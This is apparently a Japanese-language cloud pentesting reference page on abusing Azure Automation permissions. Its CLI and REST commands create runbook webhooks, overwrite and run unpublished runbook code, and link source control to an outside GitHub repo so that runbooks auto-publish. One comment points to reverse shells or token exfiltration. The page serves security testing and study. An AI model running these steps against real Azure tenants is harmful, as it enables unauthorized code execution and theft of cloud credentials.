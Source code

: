 権限**`Microsoft.Automation/automationAccounts/webhooks/write`**を使用すると、次のコマンドを使用してAutomation Account内のRunbook用の新しいWebhookを作成することができます。
```bash
New-AzAutomationWebHook -Name <webhook-name> -ResourceGroupName <res-group> -AutomationAccountName <automation-account-name> -RunbookName <runbook-name> -IsEnabled $true
```
このコマンドは、作成時にのみ表示されるウェブフックURIを返す必要があります。次に、ウェブフックURIを使用してランブックを呼び出します。
```bash
curl -X POST "https://f931b47b-18c8-45a2-9d6d-0211545d8c02.webhook.eus.azure-automation.net/webhooks?token=Ts5WmbKk0zcuA8PEUD4pr%2f6SM0NWydiCDqCqS1IdzIU%3d" \
-H "Content-Length: 0"
```
### `Microsoft.Automation/automationAccounts/runbooks/draft/write`

`Microsoft.Automation/automationAccounts/runbooks/draft/write` の権限だけで、**Runbookのコードを更新**し、公開せずに次のコマンドを使用して実行することが可能です。
```bash
# Update the runbook content with the provided PowerShell script
az automation runbook replace-content --no-wait \
--resource-group Resource_Group_1 \
--automation-account-name autoaccount1 \
--name AzureAutomationTutorialWithIdentity \
--content 'echo "Hello World"'

# Run the unpublished code
## Indicate the name of the hybrid worker group in runOn to execute the runbook there
az rest \
--method PUT \
--url "https://management.azure.com/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.Automation/automationAccounts/autoaccount1/runbooks/AzureAutomationTutorialWithIdentity/draft/testJob?api-version=2023-05-15-preview" \
--headers "Content-Type=application/json" \
--body '{
"parameters": {},
"runOn": "",
"runtimeEnvironment": "PowerShell-5.1"
}'

# Get the output (a different permission is needed here, but you could get a revershell or exfiltrate the token to avoid needing this permission)
az rest --method get --url "https://management.azure.com/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.Automation/automationAccounts/autoaccount1/runbooks/AzureAutomationTutorialWithIdentity/draft/testJob/streams?api-version=2019-06-01"
```
### `Microsoft.Automation/automationAccounts/sourceControls/write`, (`Microsoft.Automation/automationAccounts/sourceControls/read`)

この権限は、ユーザーが次のようなコマンドを使用してAutomation Accountの**ソースコントロールを構成する**ことを許可します（これはGithubを例にしています）：
```bash
az automation source-control create \
--resource-group <res-group> \
--automation-account-name <automation-account-name> \
--name RemoteGithub \
--repo-url https://github.com/carlospolop/gh-runbooks.git \
--branch main \
--folder-path /runbooks/ \
--publish-runbook true \
--auto-sync \
--source-type GitHub \
--token-type PersonalAccessToken \
--access-token github_pat_11AEDCVZ<rest-of-the-token>
```